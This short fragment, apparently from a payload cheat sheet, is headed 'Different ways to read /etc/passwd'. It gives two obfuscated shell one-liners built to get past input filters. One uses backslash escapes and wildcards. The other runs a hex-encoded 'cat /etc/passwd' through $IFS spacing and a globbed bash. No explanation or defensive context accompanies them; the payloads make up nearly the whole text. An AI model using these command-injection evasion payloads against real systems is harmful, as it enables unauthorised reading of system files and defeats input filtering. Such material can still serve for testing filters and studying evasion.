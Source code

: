 
Different ways to read /etc/passwd

```
t\a\c$@</*?c/*?*?*w\d

```
e\c\h\o$IFS-e$IFS'\x63\x61\x74\x20\x2F\x65\x74\x63\x2F\x70\x61\x73\x73\x77\x64'|/???/\b**\h
